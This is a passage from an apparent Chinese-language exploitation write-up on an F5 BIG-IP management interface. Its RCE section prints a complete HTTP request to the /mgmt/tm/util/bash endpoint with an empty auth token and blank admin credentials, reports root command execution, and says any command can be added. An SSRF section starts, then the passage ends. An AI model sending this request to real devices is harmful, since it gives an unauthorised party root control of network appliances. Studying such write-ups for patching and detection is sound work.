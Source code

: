 ##### 0x31 RCE

因为我们已经得到结论，**https://<host>/mgmt/tm/util/bash** 路径是用来执行系统命令的，因此我们直接构造数据包，通过Burpsuit的Repeater功能进行发包获取权限，从而实现RCE漏洞利用。
构造的数据包如下:

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.1xx.1x
X-F5-Auth-Token:
Authorization: Basic YWRtaW46
Content-Length: 55

{
    "command": "run",
    "utilCmdArgs": "-c id"
}
```

Burpsuit结果，如下图:

![exp](exp.png)

response报文返回了我们通过该报文获取的系统权限，uid=0,gid=0也正是linux系统下root的id号，因此我们夺取了系统的root权限。那么我们只需要构造这样的报文，在添加相应的执行命令即可实现RCE漏洞的利用，能够对系统进行威胁了。

##### 0x32 SSRF

首先我们需要构造POST报文获取生成Token，然后使用该Token再次生成报文从而拿下系统权限。
